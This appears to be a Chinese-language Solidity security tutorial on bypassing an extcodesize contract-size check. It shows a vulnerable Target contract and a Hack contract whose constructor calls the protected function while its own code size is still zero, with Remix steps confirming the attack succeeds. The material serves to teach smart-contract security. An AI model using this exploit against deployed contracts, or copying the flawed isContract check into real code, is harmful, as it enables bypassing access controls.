




# Bypass Contract Size Check
## 漏洞
如果一个地址是一个合约，那么存储在该地址的代码大小肯定大于0，对吧？

让我们看看如何创建一个代码大小由extcodesize返回的合约等于0的合约。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Target {
    function isContract(address account) public view returns (bool) {
        // 该方法依赖于extcodesize函数，对于正在构建中的合约，该函数返回0，因为代码只在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}

contract FailedAttack {
    // 尝试调用Target.protected将失败，
    // Target阻止从合约调用
    function pwn(address _target) external {
        // 这将失败
        Target(_target).protected();
    }
}

contract Hack {
    bool public isContract;
    address public addr;

    // 当合约正在创建时，代码大小（extcodesize）为0。
    // 这将绕过isContract()检查
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        //这将起作用
        Target(_target).protected();
    }
}
```

## remix验证
1.部署Target合约，调用 isContract函数输入一个合约地址，查看结果

2.部署FailedAttack合约，调用pwn函数输入上一步的Target合约地址，验证是否成功

3.部署Hack合约，将Target合约地址作为参数传入构造函数。Hack合约的构造函数调用Target.isContract()方法，但此时Hack合约的代码大小为0，因此isContract()方法返回false。

4.Hack合约的构造函数调用Target.protected()方法，由于调用者是一个地址而不是合约，因此调用成功并将pwned变量设置为true。查看Target合约的pwned变量，应该为true，说明攻击成功。
